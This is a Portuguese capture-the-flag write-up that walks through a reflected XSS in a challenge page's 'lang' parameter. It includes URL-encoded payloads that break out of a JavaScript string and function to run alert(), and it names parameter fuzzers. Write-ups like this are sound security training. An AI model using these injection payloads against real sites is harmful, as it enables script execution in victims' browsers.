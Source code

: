 Resolução do Desafio "DOM" XSS Reflected - https://bountyleaks.cf/challenge/dom.php

1.  Ao acessarmos a página, vemos um trecho de código em JS
```
// Its not used anymore
function display_message(){
 var lang = "en-US";
 if(lang == "en-US"){
  var message = "Welcome!";
  return message 
 }
 var message = "Bem-vindo!";
 return message;
}

// just say hello, doesnt matter what language do you speak, english is universal LOL
document.write('<h1>Welcome hacker =)</h1>');
```
2. Nesse ponto, levanta-se a suspeita que existe alguma querystring / parâmetro de URL que podemos manipular

Provavelmente a aplicação detecta qual o idioma do navegador do usuário ou aceita receber isso via parâmetro (refletindo na página).

3. Como não temos certeza, aqui caberiam duas abordagens:

3.1 Verificar que existem duas variáveis JS (lang e message) e verificar se via querystring elas são refletidas na página (?lang=teste e ?message=teste)

3.2 Utilizar algum fuzzer (ffuf, x8, dalfox, arjun) para usar um arquivo / lista cheio de parâmetros e ver qual pode estar refletindo na página: comando -url https://bountyleaks.cf/challenge/dom.php?FUZZAQUI=teste
4. Fazendo algum destes modos supracitados, chegamos a conclusão que acessando: https://bountyleaks.cf/challenge/dom.php?lang=123, faz com que o trecho de código da página vire:
```
// Its not used anymore
function display_message(){
 var lang = "123";
```
Dessa forma o valor informado pelo usuário via URL está refletindo na página (dando margem para injeção de códigos)
5. Como já estamos dentro de um contexto JS (dentro das tags script), não é preciso que a gente reabra essas tags para executar um javascript, mas mesmo assim, podemos confirmar que a aplicação não permite tags como < e > : https://bountyleaks.cf/challenge/dom.php?lang=123< 
Ao acessá-la, o parâmetro "var lang" volta para seu valor padrão: "en-US"
6. Então para executar o XSS, vamos precisar ter um pouco de conhecimento de JS, pois é o contexto que estamos inseridos: 

6.1 Nossa entrada de dados está sendo refletida dentro de um valor de variável (lang) que está dentro de uma função chamada display_message(), que por sua vez não é chamada automaticamente pelo site, somente declarada

6.2 Precisaremos, então, sair do contexto dessa função que não é chamada, para que nosso XSS seja executado assim que o usuário entrar na página

6.3 Para isso, precisamos fechar aquela chave da função display_message () "{", com uma chave fechando esse bloco de código: "}"

6.4 Caso acessássemos a URL: https://bountyleaks.cf/challenge/dom.php?lang=";%0a}%0aalert(123);// 
Considerando %0a para \n (quebra de linha), ficando o trecho de código do nosso site agora:
``` 
function display_message(){
 var lang = " ";
}
alert(123);//";
if(lang == "en-US"){
  var message = "Welcome!";
  return message 
 }
 var message = "Bem-vindo!";
 return message;
}
```
6.5 Conseguimos! Saímos do escopo da função JS, mas o JS não irá triggar, devido a um erro de sintaxe:
Não estamos mais dentro de uma função e existe linhas falando "return". O valor vai ser retornado pra onde? Não existe função englobando ela para esse retorno ficar explícito.
Esse erro inclusive será alertado em seu console do navegador. Qualquer erro de sintaxe JS dos sites voltam nele.

6.6 Vamos então criar uma outra função, fingindo que existe uma outra função logo após, englobando esses returns, então:
https://bountyleaks.cf/challenge/dom.php?lang=%22;%0a}%0aalert(document.domain);%0afunction%20nuncaserachamada(){//
Ficando nosso código:
```
function display_message(){
 var lang = "";
}
alert(123);
function nuncaserachamada(){//";
 if(lang == "en-US"){
  var message = "Welcome!";
  return message 
 }
 var message = "Bem-vindo!";
 return message;
}
```

Pronto =), XSS executado o/
